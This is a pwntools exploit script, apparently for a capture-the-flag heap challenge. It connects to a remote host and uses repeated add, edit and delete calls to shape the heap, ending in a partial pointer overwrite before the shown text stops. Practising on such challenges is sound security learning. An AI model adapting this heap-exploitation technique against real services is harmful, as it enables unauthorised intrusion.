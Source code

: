 ```
from pwn import*
context(os='linux',arch='amd64')
context.log_level=True
libc=ELF('./libc.so.6')
#p = process(["./ld-2.27.so", "./a"],env={"LD_PRELOAD":"./libc-2.27.so"})
#p=process('./pwn',env={'LD_PRELOAD':'./libc.so.6'})
#p=process('./npuctf_pwn')
p=remote('39.106.158.47',30614)
def add(data):
 p.recvuntil('>> ')
 p.sendline('1')
 p.recvuntil('Name:\n')

 p.send(str(data))
def edit(data):
 p.recvuntil('>> ')
 p.sendline('3')
 p.recvuntil('ay what do you want to say')
 p.send(str(data))
def delete(data):
 p.recvuntil('>> ')
 p.sendline('2')
 p.recvuntil('Name:')

 p.send(data)
def bye(data):
 p.recvuntil('>> ')
 p.sendline('4')
 p.recvuntil('Do you really want to say bye?\n')

 p.sendline(data)

for i in range(12):
 add(str(i))
#edit('bbbbb')
#add('10')
for i in range(8):
 edit('bbbbb')
 bye('1')

add('bbb')
add('ccc')
delete('1')
delete('2')
delete('3')
delete('4')
delete('5')
delete('6')
delete('7')
delete('9')
delete('10')

add('1')
add('2')
add('3')
add('4')
add('5')
add('6')
add('7')

add('\xa0\x26')
delete('1')
delete('2')
```